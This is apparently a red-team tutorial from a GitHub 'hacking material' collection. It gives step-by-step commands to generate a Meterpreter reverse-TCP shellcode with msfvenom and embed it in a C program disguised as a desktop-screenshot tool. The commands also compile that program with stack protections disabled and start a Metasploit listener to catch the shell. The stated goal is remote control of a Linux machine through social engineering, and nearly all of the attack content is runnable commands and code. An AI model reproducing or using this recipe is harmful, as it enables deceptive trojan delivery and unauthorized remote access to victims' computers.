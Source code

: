 #### :: SHELLCODE DESCRIPTION (Wikipedia)
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient. However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 

---

<br />

#### :: EXERCISE OBJECTIVES
Use Metasploit to build shellcode in C format and Insert the C shellcode into a C program (RAT)<br />
To be abble to control of a linux system remotely using social engineering.

<br />

#### :: STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### :: [SOCIAL ENGINEERING](https://en.wikipedia.org/wiki/Social_engineering_(security)) (Why execute this?)
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'(Screenshot Function Inside the C Program)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit Framework | Build Shellcode + Recive Connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X Window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### :: STEP-BY-STEP (HOW-TO)
Execute all the follow commands sequencialy into your terminal windows<br />
All Commands required to acomplish this exercise are inside the grey box(s).<br />
This exercise its written this way to allow readers to work only in terminal windows.<br />

<br /><br />

#### :: Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

![pic](http://i63.tinypic.com/2dl9pop.png)

<br />

#### :: Start postgresql service

```
sudo service postgresql start
```

![pic](http://i63.tinypic.com/2eoikbo.png)

<br />

#### :: Use Metasploit to Build Shellcode in C Format
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

![pic](http://i64.tinypic.com/muk5xu.png)

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode **\x00**
  - -a payload arch
  - -f shellcode format
  - -o write output to a file 

<br />

#### :: See whats written inside chars.raw (optional)

```
cat chars.raw
```

![pic](http://i66.tinypic.com/i6xzyw.png)

<br />

#### [Parse](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/bash/parsing_data_in_bash.md) shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

![pic](http://i65.tinypic.com/2090m12.png)

The shellcode data its now stored inside a bash local variable named **$pa**<br />
This variable its going to be used to embebbed the shellcode in to C Program while we<br />
are creating it using the follow commands described in the next grey box.<br />

<br />

#### :: Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"\nPlease Wait, Taking Screenshot ..\n\....................................", strlen(buf));" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud -in /tmp/ScreenShot.xwd &\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

![pic](http://i63.tinypic.com/2wm1aax.png)

<br />

#### :: See whats written inside payload.c (optional)

```
cat payload.c
```

![pic](http://i65.tinypic.com/wkh8h2.png)

<br />

#### :: Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

![pic](http://i68.tinypic.com/15klg4.png)

<br />

#### :: Start metasploit multi handler
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

![pic](http://i66.tinypic.com/kao6ps.png)

<br />

#### :: Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

![pic](http://i63.tinypic.com/24kzad1.png)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

<br />

#### :: Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


